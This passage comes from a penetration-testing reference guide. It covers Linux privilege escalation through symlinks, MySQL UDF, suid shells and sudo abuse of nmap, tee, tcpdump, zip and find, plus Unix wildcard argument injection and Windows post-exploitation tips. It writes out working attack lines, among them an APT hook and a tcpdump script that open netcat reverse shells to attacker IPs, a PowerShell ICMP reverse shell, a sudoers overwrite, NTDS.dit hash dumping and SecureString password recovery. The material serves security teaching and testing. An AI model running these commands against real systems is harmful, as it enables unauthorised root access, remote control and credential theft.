 ln -s /etc/shadow /home/xxxxxx/example.conf
 ln -s /home/xxx2/.ssh/id_rsa /home/xxxxxxx/example.conf

Now, when we try to read example.conf file, we would be able to read the file for which we created the symlink

::

 readExampleConf /home/xxxxxxx/example.conf
 <Contents of shadow or id_rsa>

Directory Symlink
^^^^^^^^^^^^^^^^^

Let's see what happens when we create a symlink of a directory

::

 ln -s /etc/ sym_file
 ln -s /etc/ sym_fold/

Here the first one create a direct symlink to the /etc folder and will be shown as 

::

 sym_file -> /etc/

where as in the second one ( ln -s /etc/ sym_fold/ ), we first create a folder sym_fold and then create a symlink

::

 sym_fold:
 total 0
 lrwxrwxrwx 1 bitvijays bitvijays 5 Dec  2 19:31 etc -> /etc/

This might be useful to bypass some filtering, when let's say a cronjob is running but refuses to take backup of anything named /etc . In that case, we can create a symlink inside a folder and take the backup. 

MySQL Privileged Escalation
---------------------------

If mysql (version 4.x, 5.x) process is running as root and we do have the mysql root password and we are an unprivileged user, we can utilize `User-Defined Function (UDF) Dynamic Library Exploit <http://www.0xdeadbeef.info/exploits/raptor_udf.c>`_ . A blog named `Gaining a root shell using mysql user defined functions and setuid binaries <https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/>`_  

More Information
^^^^^^^^^^^^^^^^

* The MySQL service should really not run as root. The service and all mysql directories should be run and accessible from another account - mysql as an example.

* When MySQL is initialized, it creates a master account (root by default) that has all privileges to all databases on MySQL. This root account differs from the system root account, although it might still have the same password due to default install steps offered by MySQL.

* Commands can be executed inside MySQL, however, commands are executed as the current logged in user.

::

  mysql> \! sh

Cron.d
------

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

Elevating privilege from a suid binary
--------------------------------------

If we have ability to create a suid binary, we can use either 

Suid.c

::

  int main(void) {
  setgid(0); setuid(0);
  execl(“/bin/sh”,”sh”,0); }

or

::

 int main(void) {
 setgid(0); setuid(0);
 system("/bin/bash -p"); }

However, if we have a unprivileged user, it is always better to check whether /bin/sh is the original binary or a symlink to /bin/bash or /bin/dash. If it's a symlink to bash, it won't provide us suid privileges, bash automatically drops its privileges when it's being run as suid (another security mechanism to prevent executing scripts as suid). So, it might be good idea to copy dash or sh to the remote system, suid it and use it.

More details can be found at `Common Pitfalls When Writing Exploits <http://www.mathyvanhoef.com/2012/11/common-pitfalls-when-writing-exploits.html>`_


Unattended APT - Upgrade
------------------------

If we have a ability to upload files to the host at any location (For. example misconfigured TFTP server) and APT-Update/ Upgrade is running at a set interval (Basically unattended-upgrade or via-a-cronjob), then we can use APT-Conf to run commands

DPKG
^^^^

Debconf configuration is initiated with following line. The command in brackets could be any arbitrary command to be executed in shell.

::

 Dpkg::Pre-Install-Pkgs {"/usr/sbin/dpkg-preconfigure --apt || true";};
 
There are also options

::

 Dpkg::Pre-Invoke {"command";};
 Dpkg::Post-Invoke {"command";};

They execute commands before/after apt calls dpkg. Post-Invoke which is invoked after every execution of dpkg (by an apt tool, not manually);

APT
^^^

* APT::Update::Pre-Invoke {"your-command-here"};

* APT::Update::Post-Invoke-Success, which is invoked after successful updates (i.e. package information updates, not upgrades);

* APT::Update::Post-Invoke, which is invoked after updates, successful or otherwise (after the previous hook in the former case).

To invoke the above, create a file in  /etc/apt/apt.conf.d/ folder specifying the NN<Name> and keep the code in that

For example:

::

 APT::Update::Post-Invoke{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f";};

When the apt-update would be executed, it would be executed as root and we would get a shell as a root.

SUDO -l Permissions
-------------------

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, find and zip.

nmap suid
^^^^^^^^^

:: 

  nmap --script <(echo 'require "os".execute "/bin/sh"')

or

:: 

  nmap --interactive

tee suid
^^^^^^^^

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

:: 

  temp.sh
  echo "example_user ALL=(ALL) ALL" > /etc/sudoers 

or 

::

  chmod +w /etc/sudoers to add write properties to sudoers file to do the above

and then

:: 

  cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

which will add contents of temp.sh to tidyup.sh. ( Assuming tidyup.sh is running as root by crontab )

tcpdump
^^^^^^^

The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

Create a temp.sh ( which contains the commands to executed as root )

:: 

  id
  /bin/nc 192.168.110.1 4444 -e /bin/bash

Execute the command

:: 

  sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

where
 
:: 

  -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

  -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

  -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

  Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

  And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.

zip
^^^

::

  touch /tmp/exploit
  sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"

find
^^^^

If find is suid, we can use

::

 touch foo
 find foo -exec whoami \;

Here, the foo file ( a blank file ) is created using the touch command as the -exec parameter of the find command will execute the given command for every file that it finds, so by using “find foo” it is ensured they only execute once. The above command will be executed as root.

HollyGrace has mentioned this in `Linux PrivEsc: Abusing SUID <https://www.gracefulsecurity.com/linux-privesc-abusing-suid/>`_




More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.


Unix Wildcards
--------------

The below text is directly from the `DefenseCode Unix WildCards Gone Wild <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

Chown file reference trick (file owner hijacking)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

:: 

  [root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

:: 

   [root@defensecode public]# chown -R nobody:nobody \*.php

Let's see who owns files now...

:: 

  root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php

Something is not right. What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

:: 

  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

Let's check chown manual page (man chown):

:: 

   --reference=RFILE     use RFILE's owner and group rather than specifying OWNER:GROUP values

So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument	to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this directory. With this simple chown parameter pollution, we can trick root into changing ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


Chmod file reference trick
^^^^^^^^^^^^^^^^^^^^^^^^^^

Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

:: 

  --reference=RFILE    :   use RFILE's mode instead of MODE values

Example is presented below.

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

Superuser will now try to set mode 000 on all files.

:: 

  [root@defensecode public]# chmod 000 *

Let's check permissions on files...

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set to mode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

Tar arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  
Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

:: 

    [root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

:: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

Check the following directory:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current directory.

:: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

:: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

:: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

Rsync arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

Interesting rsync option from manual:

:: 

  -e, --rsh=COMMAND       specify the remote shell to use
  --rsync-path=PROGRAM    specify the rsync to run on remote machine			

Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

:: 

  # rsync -t *.c foo:src/


Directory content:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

:: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...

:: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

There were two files owned by user 'leon', as listed below.

:: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

:: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

:: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

:: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt


.. _tips-and-tricks:

Tips and Tricks
===============

Windows
-------

Get-ChildItem Mode Values
^^^^^^^^^^^^^^^^^^^^^^^^^

'Mode' values returned by PowerShell's Get-ChildItem cmdlet?

::

 PS> gci|select mode,attributes -u

 Mode                Attributes
 ----                ----------
 d-----               Directory
 d-r---     ReadOnly, Directory
 d----l Directory, ReparsePoint
 -a----                 Archive

In any case, the full list is:

::

 d - Directory
 a - Archive
 r - Read-only
 h - Hidden
 s - System
 l - Reparse point, symlink, etc.

Zip or unzip using ONLY Windows' built-in capabilities? 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Powershell way

::

 Add-Type -A System.IO.Compression.FileSystem
 [IO.Compression.ZipFile]::CreateFromDirectory('foo', 'foo.zip')
 [IO.Compression.ZipFile]::ExtractToDirectory('foo.zip', 'bar')

Alternate Data Stream
^^^^^^^^^^^^^^^^^^^^^
Sometimes, `Alternate Data Stream <https://blogs.technet.microsoft.com/askcore/2013/03/24/alternate-data-streams-in-ntfs/>`_ can be used to hide data in streams.

The output shows not only the name of the ADS and its size, but also the unnamed data stream and its size is also listed (shown as :$DATA).

Powershell-Way

::

 PS > Get-Item -Path C:\Users\Administrator\example.zip -stream *

 Filename: C:\Users\Administrator\example.zip

 Stream             Length
 ------             -------
 :$DATA             8
 pass.txt           4

Now, we know the name of the ADS, We can use the Get-Content cmdlet to query its contents.

::

 Get-Content -Path C:\Users\Administrator\example.zip -Stream pass.txt
 The password is Passw0rd!

Check a directory for ADS?

::

 gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'

DIR Way

Current directory ADS Streams

::

 dir /r | find ":$DATA"

Sub-directories too

::

 dir   /s /r | find ":$DATA"

Reading the hidden stream

::

 more < testfile.txt:hidden_stream::$DATA

Redirecting Standard Out and Standard Error from PowerShell Start-Process
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Often reverse shells will not display standard error. Sometimes they will not display standard out when a new process is started. The following will redirect standard out and standard error to text files when PowerShell starts a new process.

::

 PS C:\> Start-Process -FilePath C:\users\administrator\foo.txt -NoNewWindow -PassThru -Wait -RedirectStandardOutput stdout.txt -RedirectStandardError stderr.txt

`Powershell Start-Process Module Documentation <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process>`_.


NTDS.dit and SYSTEM hive
^^^^^^^^^^^^^^^^^^^^^^^^^

If you have found files such as 

::

 IP_psexec.ntdsgrab._333512.dit: Extensible storage engine DataBase, version 0x620, checksum 0x16d44752, page size 8192, DirtyShutdown, Windows version 6.1
 IP_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above

Probably, there are dump of domain controller NTDS.dit file, from which passwords can be extracted. Utilize,

::

 python secretsdump.py -ntds /root/ntds_cracking/ntds.dit -system /root/ntds_cracking/systemhive LOCAL

ICMP Shell
^^^^^^^^^^

Sometimes, inbound and outbound traffic from any port is disallowed and only ICMP traffic is allowed. In that case, we can use `Simple reverse ICMP Shell <https://github.com/inquisb/icmpsh>`_ However, this requires the executable to be present on the system. There's a powershell version of `ICMP Reverse Shell <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1>`_ Sometimes, probably, we can execute powershell code on the machine. In that case, we can use the one-liner powershell code to execute the shell.

::

 powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"


The above code is basically a reduced version of the powershell version of ICMP and have a limited buffer (which means commands whose output is greater than the buffer, won't be displayed!). Now, there's a painful way of transferring files to the victim system which is

* Convert the file/ code which needs to be transferred in to base64. (If possible, remove all the unnecessary code/ comments, this would help us to reduce the length of the base64)
* Utilize the `Add-Content cmdlet <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-5.1>`_ to transfer the file to the victim system. Do, remember to transfer the data in chunks as we have limited buffer! Probably, we have to run the below command twice or thrice to transfer the whole base64-encoded chunk.
 
 ::
  
  Add-Content <filename> "Base64 encoded content"

* Once the base64-encoded data is transferred, we can utilize `certutil <https://technet.microsoft.com/en-us/library/cc732443(v=ws.11).aspx>`_ from Microsoft to decode the base64-encoded to normal file.

 ::

  certutil <-decode/ -encode> <input file> <output file>
  -decode Decode a Base64-encoded file
  -encode Encode a file to Base64

* Now, we can execute the file (assuming powershell ps1 file) to get the full powershell ICMP reverse shell with buffer management so, we would be able to get full output of the commands.

* Now, most of the time after getting the intial shell, probably, we would have figured out user credentials ( let's say from www-data or iisapppool user to normal/ admin user credentials. ) At this point of time, we can use the below code to create a PSCredential.

 ::

  $username = 'UsernameHere';
  $password = 'PasswordHere';
  $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
  $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword 

* Once, we have created a PSCredential, we can use `Invoke-Command <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command>`_  to execute command as that user.

  ::
   
   Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {Command to be executed}
   -ComputerName localhost is required as the code is to be executed on localhost, without -ComputerName, InvokeCommand doesn't work.

* Possibly, we can execute the ICMP Shell code to get the shell as the new user.

* One problem, which we gonna face is, when we are running ICMP Shell with different users for example, first with IISWebpool, then with User1, then with user2, we would get multple times IISWebpool as that powershell process (on UDP) is still running. One way to this is Just before launching a new ICMP shell as a different user. 
  
  * Check powershell processes with Show-Process

   ::

    Show-Process -Name *power* "
  
  *  Note down  the PID 
  * Execute shell as the different user 
  * Stop-Process the previous PID

Recovering password from System.Security.SecureString
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have windows credentials stored as System.Security.SecureString, we can use

::

 $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($SecurePassword)
 $UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

or 

::

 $UnsecurePassword = (New-Object PSCredential "user",$SecurePassword).GetNetworkCredential().Password

Example:

::

 PS> $PlainPassword = Read-Host -AsSecureString  "Enter password"
 PS> Enter password: ***
 PS> $PlainPassword
 PS> System.Security.SecureString
 PS> $UnsecurePassword1 = (New-Object PSCredential "user",$PlainPassword).GetNetworkCredential().Password
 PS> $UnsecurePassword1
 PS> yum

Copy To or From a PowerShell Session
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This is a awesome feature to copy files from different computers on which we have a WinRM or Remote PS Session. Directly taken from `Copy To or From a PowerShell Session <https://blogs.technet.microsoft.com/poshchap/2015/10/30/copy-to-or-from-a-powershell-session/>`_

* Copy Local files to a remote session :
 
 ::

  ##Initialize the session
  $TargetSession = New-PSSession -ComputerName HALOMEM03

  ##  Copy Files from Local session to remote session
  Copy-Item -ToSession $TargetSession -Path "C:\Users\Administrator\desktop\scripts\" -Destination "C:\Users\administrator.HALO\desktop\" -Recurse

* Copy some files from a remote session to the local server:

  ::

   ## Create the session
   $SourceSession = New-PSSession -ComputerName HALODC01

   ## Copy from Remote machine to Local machine
   Copy-Item -FromSession $SourceSession -Path "C:\Users\Administrator\desktop\scripts\" -Destination "C:\Users\administrator\desktop\" -Recurse

Get-Hash
^^^^^^^^

`Get-FileHash <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash>`_ Computes the hash value for a file by using a specified hash algorithm.

::

 PS > Get-FileHash Hello.rst                                                                                                                                                        

 Algorithm       Hash                                                                   Path                                                                                                                                                                            
 ---------       ----                                                                   ----                                                                                                                                                                            
 SHA256          8A7D37867537DB78A74A473792928F14EDCB3948B9EB11A48D6DE38B3DD30EEC       /tmp/Hello.rst                                                                                   

Active Directory Enumeration and Remote Code Execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Probably, refer  :doc:`LFF-IPS-P3-Exploitation`

It contains

* Active Directory Reconnaissance : Information about active directory enumeration with Domain User rights by various methods such as rpclient, enum4linux, nltest, netdom, powerview, bloodhound, adexplorer, Jexplorer, Remote Server Administration Tools, Microsoft Active Directory Topology Diagrammer, reconnaissance using powershell, powershell adsisearcher etc.
* Remote Code Execution Methods : Information about multiple ways to get a execute remote commands on the remote machine such winexe, crackmapexec, impacket psexec, smbexec, wmiexec, Metasploit psexec, Sysinternals psexec, task scheduler, scheduled tasks, service controller (sc), remote registry, WinRM, WMI, DCOM, Mimikatz Pass the hash/ Pass the ticket, remote desktop etc.

Others
^^^^^^

* Invoking Net Use using Credentials to mount remote system

